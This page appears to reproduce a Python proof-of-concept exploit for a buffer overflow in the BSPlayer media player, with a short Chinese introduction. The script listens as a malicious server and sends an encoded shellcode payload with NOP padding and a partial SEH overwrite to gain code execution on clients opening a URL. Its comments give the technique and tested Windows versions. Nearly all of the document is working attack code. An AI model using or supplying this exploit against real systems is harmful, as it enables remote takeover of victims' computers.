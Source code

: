 脚本具体内容如下：

```
#!/usr/bin/python

''' Bsplayer suffers from a buffer overflow vulnerability when processing the HTTP response when opening a URL.
In order to exploit this bug I partially overwrited the seh record to land at pop pop ret instead of the full
address and then used backward jumping to jump to a long jump that eventually land in my shellcode.

Tested on : windows xp sp1 - windows 7 sp1 - Windows 8 Enterprise it might work in other versions as well just give it a try :)

My twitter: @fady_osman
My youtube: https://www.youtube.com/user/cutehack3r
'''

import socket
import sys
s = socket.socket()         # Create a socket object
if(len(sys.argv) < 3):
  print "[x] Please enter an IP and port to listen to."
  print "[x] " + sys.argv[0] + " ip port"
  exit()
host = sys.argv[1]      # Ip to listen to.
port = int(sys.argv[2])     # Reserve a port for your service.
s.bind((host, port))        # Bind to the port
print "[*] Listening on port " + str(port)
s.listen(5)                 # Now wait for client connection.
c, addr = s.accept()        # Establish connection with client.
# Sending the m3u file so we can reconnect to our server to send both the flv file and later the payload.
print(('[*] Sending the payload first time', addr))
c.recv(1024)
#seh and nseh.
buf =  ""
buf += "\xbb\xe4\xf3\xb8\x70\xda\xc0\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x33\x31\x58\x12\x83\xc0\x04\x03\xbc\xfd\x5a"
buf += "\x85\xc0\xea\x12\x66\x38\xeb\x44\xee\xdd\xda\x56\x94"
buf += "\x96\x4f\x67\xde\xfa\x63\x0c\xb2\xee\xf0\x60\x1b\x01"
buf += "\xb0\xcf\x7d\x2c\x41\xfe\x41\xe2\x81\x60\x3e\xf8\xd5"
buf += "\x42\x7f\x33\x28\x82\xb8\x29\xc3\xd6\x11\x26\x76\xc7"
buf += "\x16\x7a\x4b\xe6\xf8\xf1\xf3\x90\x7d\xc5\x80\x2a\x7f"
buf += "\x15\x38\x20\x37\x8d\x32\x6e\xe8\xac\x97\x6c\xd4\xe7"
buf += "\x9c\x47\xae\xf6\x74\x96\x4f\xc9\xb8\x75\x6e\xe6\x34"
buf += "\x87\xb6\xc0\xa6\xf2\xcc\x33\x5a\x05\x17\x4e\x80\x80"
buf += "\x8a\xe8\x43\x32\x6f\x09\x87\xa5\xe4\x05\x6c\xa1\xa3"
buf += "\x09\x73\x66\xd8\x35\xf8\x89\x0f\xbc\xba\xad\x8b\xe5"
buf += "\x19\xcf\x8a\x43\xcf\xf0\xcd\x2b\xb0\x54\x85\xd9\xa5"
buf += "\xef\xc4\xb7\x38\x7d\x73\xfe\x3b\x7d\x7c\x50\x54\x4c"
buf += "\xf7\x3f\x23\x51\xd2\x04\xdb\x1b\x7f\x2c\x74\xc2\x15"
buf += "\x6d\x19\xf5\xc3\xb1\x24\x76\xe6\x49\xd3\x66\x83\x4c"
buf += "\x9f\x20\x7f\x3c\xb0\xc4\x7f\x93\xb1\xcc\xe3\x72\x22"
buf += "\x8c\xcd\x11\xc2\x37\x12"

jmplong = "\xe9\x85\xe9\xff\xff"
nseh = "\xeb\xf9\x90\x90"
# Partially overwriting the seh record (nulls are ignored).
seh = "\x3b\x58\x00\x00"
buflen = len(buf)
response = "\x90" *2048 + buf + "\xcc" * (6787 - 2048 - buflen) + jmplong + nseh + seh #+ "\xcc" * 7000
c.send(response)
```